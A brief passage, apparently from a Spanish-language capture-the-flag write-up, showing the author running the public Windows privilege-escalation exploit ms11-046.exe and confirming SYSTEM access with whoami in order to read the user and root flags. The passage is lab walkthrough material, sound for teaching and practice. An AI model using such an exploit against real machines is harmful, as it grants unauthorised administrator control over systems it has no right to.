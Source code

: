 Ejecutamos el archivo ms11-046.exe y ya somos adminstradores del sistema, ahora podemos visualizar las flags (user.txt y root.txt).

```bash
ms11-046.exe

whoami
whoami
nt authority\system

c:\Windows\System32>
```
